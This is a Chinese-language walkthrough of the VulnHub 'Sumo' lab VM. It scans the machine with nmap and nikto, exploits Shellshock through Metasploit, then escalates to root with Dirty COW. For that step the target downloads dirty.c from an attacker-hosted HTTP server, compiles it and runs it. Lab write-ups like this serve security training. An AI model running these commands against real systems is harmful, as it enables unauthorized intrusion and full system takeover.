




# Sumo 脏牛提权

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/sumo-1,480/

## 知识点

- 脏牛提权

## 信息收集

```bash
ifconfig eth0 # 这里是因为本地局域网
nmap -sP 10.30.0.0/24 # IP探测 扫描本地C段的网络端口信息
nmap -A -p- -T4 10.30.0.171
```
## 漏洞利用

```bash
nikto -h http://10.30.0.171 # 扫描网站漏洞
```


发现存在CVE-2014-6271


```bash
msfconsole
search CVE-2014-6271
use exploit/multi/http/apache_mod_cgi_bash_env_exec

set RHOSTS 10.30.0.171
set TARGETURI /cgi-bin/test
exploit
shell
whoami
```


### 脏牛提权

- 扫描是否存在脏牛漏洞脚本scan-dirtycow.sh
    - https://github.com/aishee/scan-dirtycow/blob/master/dirtycowscan.sh

```bash
python -m SimpleHTTPServer # kali

# 目标
python -c "import pty;pty.spawn('/bin/bash')"
cd /tmp
wget http://10.30.0.81:8080/dirtycowscan.sh
chmod +x dirtycowscan.sh
./dirtycowscan.sh
```



```
exp：dirty.c
- https://www.exploit-db.com/raw/40839

wget http://10.30.0.81:8080/dirty.c
chmod 777 dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
./dirty testpasswd
su firefart
testpasswd
```


## 参考链接
- https://dummersoul.top/2021/01/05/%E8%84%8F%E7%89%9B%E6%8F%90%E6%9D%83(CVE-2016-5195)/
- https://www.yuque.com/beret81/ge40ev/lkt282
- https://www.cnblogs.com/jpSpaceX/articles/14923377.html
- https://peiqiwiki.yuque.com/staff-ws572w/ku05f9/cpyz8h